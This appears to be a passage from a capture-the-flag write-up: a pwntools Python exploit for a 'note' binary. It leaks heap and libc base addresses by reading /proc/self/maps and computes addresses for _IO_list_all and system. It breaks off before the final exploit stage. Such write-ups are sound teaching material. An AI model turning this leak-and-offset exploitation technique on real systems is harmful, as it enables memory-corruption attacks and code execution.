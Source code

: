 ### Solve

```python
from pwn import *
import os

r = process('note')
cmd = '/proc/self/maps'
cmd = '/'*(75-len(cmd))+cmd

size = ['33581244','12342', '12341234', '23', '123456789']
for i in range(len(size)):
	print r.recvuntil('> ')
	r.sendline('1')
	print r.recvuntil(': ')
        r.sendline(size[i%len(size)])
	print r.recvuntil(': ')
	r.sendline('asdf')
	if i%10 == 0:
		print r.recvuntil('> ')
        	r.sendline('2')
        	print r.recvuntil(': ')
        	r.sendline('0')

print r.recvuntil('> ')
r.sendline('4')
print r.recvuntil(': ')
r.sendline(cmd)

data = r.recvuntil('\x00')[:-1]

print data

data = data.split('\n')
#print data
lib_base = 0
heap_base = 0
for line in data:
	if '[heap]' in line:
		heap_base = line.split('-')[0]
	if '/lib/x86_64-linux-gnu/libc-2.23.so' in line:
		lib_base = line.split('-')[0]
		break

heap_base = int(heap_base,16)
lib_base = int(lib_base,16)
print '==============================> lib_base '+hex(lib_base)

io_list_all = lib_base + 0x3c5520
system = lib_base + 0x45390

print '==============================> io_list_all '+hex(io_list_all)
print '==============================> system '+hex(system)
print '==============================> heap_base '+hex(heap_base)

########### exploit ############

r.recvuntil('> ')
r.sendline('2')
print r.recvuntil(': ')
r.sendline('0')
'''
########## top chunk leak ###########
```